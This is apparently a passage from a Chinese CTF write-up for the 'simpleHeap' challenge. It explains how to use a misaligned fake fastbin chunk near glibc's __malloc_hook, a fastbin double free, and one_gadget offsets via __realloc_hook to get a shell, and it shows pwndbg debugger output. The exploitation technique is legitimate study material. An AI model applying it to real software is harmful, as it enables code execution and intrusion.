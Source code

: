 # [V&N] simpleHeap

### 0x0 补偿

算是相对深入的理解了`__malloc_hook`和`__realloc_hook`配合使用`one_gadget`来拿到shell的方法：

首先，这两个变量的位置是临近的：

```shell
pwndbg> x/gx 0x7ffff7dcfc28
0x7ffff7dcfc28 <__realloc_hook>:	0x00007ffff7a7c790
pwndbg> x/gx 0x7ffff7dcfc30
0x7ffff7dcfc30 <__malloc_hook>:	0x0000000000000000
```

然后利用地址错位，可以得到一个`fastbin`范围的`chunk`。就可以配合Fastbin Double Free使用Fastbin Attack了。

```shell
pwndbg> p &__malloc_hook
$2 = (void *(**)(size_t, const void *)) 0x7ffff7dcfc30 <__malloc_hook>
pwndbg> find_fake_fast 0x7ffff7dcfc30 0x7f
FAKE CHUNKS
0x7ffff7dcfc0d FAKE PREV_INUSE IS_MMAPED NON_MAIN_ARENA {
  mchunk_prev_size = 18444453504836698112,
  mchunk_size = 127,
  fd = 0xfff7a7b410000000,
  bk = 0xfff7a7c79000007f,
  fd_nextsize = 0x7f,
  bk_nextsize = 0x0
}
pwndbg> x/6gx 0x7ffff7dcfc0d
0x7ffff7dcfc0d <_IO_wide_data_0+301>:	0xfff7dcbd60000000	0x000000000000007f
0x7ffff7dcfc1d:	0xfff7a7b410000000	0xfff7a7c79000007f
0x7ffff7dcfc2d <__realloc_hook+5>:	0x000000000000007f	0x0000000000000000
pwndbg>
```

另外常用方法是在`__malloc_hook`写入`_libc_realloc`的地址来调用`__realloc_hook`，在`__realloc_hook`写入one_gadget，来拿到shell。

原因在于one_gadget的另外两个参数与寄存器有关，

```shell
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
